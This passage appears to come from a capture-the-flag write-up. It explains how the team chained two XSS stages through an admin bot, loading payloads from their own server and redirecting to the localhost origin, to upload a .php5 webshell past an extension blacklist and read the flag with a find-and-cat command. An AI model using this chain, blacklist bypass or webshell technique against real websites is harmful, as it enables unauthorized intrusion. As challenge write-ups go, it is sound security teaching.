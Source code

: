 Unfortunately this doesn't help us much, since there is no interesting
functionality in `admin.php` reachable with `GET` requests.


### Abusing XSS to upload a webshell

But the `admin.php` has another interesting feature. One can upload files to a known location using `?page=upload`. But we still have one problem, that we learned about the hard way.

The bot first visists `http://127.0.0.1/admin.php?page=logs` and then clicks on
all the submitted links that are not yet hidden and will hide them them. The links are all to the host `http://13.37.37.13/`, since in contrast to the url check in `index.php` there is  a proper URL parser used to check the host. Following that, we are not able to open a page on `127.0.0.1` and therefore any request we perform to `http://127.0.0.1/admin.php` (post request to upload a file) is a cross-origin request.

The same-origin policy at least prevents us from reading the response. We tried firing blind file upload `POSTs` but that didn't work out so well, probably because the `$_SERVER['REMOTE_ADDR']` is then set to something other that `127.0.0.1`.

It took us quite a while to find the pretty simple way to bypass this.

### The final attack: Two-stage XSS

We are gonna use two XSS stages.

1. **Make bot visit stage 1 on our server**  
   `http://10.13.37.13/index.php?page=print&url=(base64 http://10.13.37.13.f0rki.at/stage1.html)`  
   this passes the check in `admin.php` because the host is 10.13.37.13.

2. **Stage 1 html redirects to `127.0.0.1` origin, which loads stage 2 XSS
   payload**, we used javascript to set `window.location` to  
   `http://127.0.0.1/index.php?page=print&url=(base64 http://10.13.37.13.f0rki.at/stage2.html )`  
   this way we change the origin back to `127.0.0.1`, can execute JS in the context of the bot and are able to perfrom `POST` requests without violating the same-origin policy and bypassing the admin check.

3. **Stage 2 payload uploads a file using an ajax `POST` request** to
   `http://127.0.0.1/admin.php?page=upload`  

   But the file upload code disallowed certain file extensions:

   ```php
   <?php
   [...]
   if($extension == '' || $extension == 'php' || $extension == 'htaccess'
      || $extension == 'pl' || $extension == 'py' || $extension == 'c'
      || $extension == 'cpp' || $extension == 'ini' || $extension == 'html') { // fail
   [...]
   ?>
   ```
   
   Fortunately the `.php5` extension was not part of the blacklist, so we just used that and hoped for the best.

4. **Upload file with `.php5` extension to get execute commands.** For example:  
   `http://10.13.37.13/uploads/file_with_more_than_twelve_chars.php5`  
5. **Get flag using the webshell**. We executed `find / -name *flag* | xargs cat`, which revealed the flag in `/flag`:
